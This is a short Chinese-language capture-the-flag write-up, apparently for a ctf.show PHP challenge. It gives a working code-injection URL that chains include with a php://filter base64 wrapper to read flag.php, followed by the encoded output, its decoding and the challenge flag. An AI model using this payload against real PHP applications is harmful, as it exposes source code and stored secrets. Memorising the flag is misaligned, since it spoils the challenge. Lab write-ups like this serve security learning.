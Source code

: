 还是用include包含文件，因为include，get，$都没有被过滤

```php
http://2d5454bc-8fbe-4459-b3d7-d4e521092dbd.challenge.ctf.show/?c=include$_GET[url]?>&url=php://filter/read=convert.base64-encode/resource=flag.php
```

<figure><img src="../.gitbook/assets/image 19.png" alt=""><figcaption></figcaption></figure>

```php
PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMgQERhdGU6ICAgMjAyMC0wOS0wNCAwMDo0OToxOQ0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhhDQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMDQgMDM6Mzc6MTENCiMgQGVtYWlsOiBoMXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KJGZsYWc9ImN0ZnNob3d7OTE4NjVmOWItM2VlYi00OTAwLWJjMGQtYTQyYTM2MWFkODU3fSI7
```

解码得

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:49:19
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 03:37:11
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

$flag="ctfshow{91865f9b-3eeb-4900-bc0d-a42a361ad857}";
```
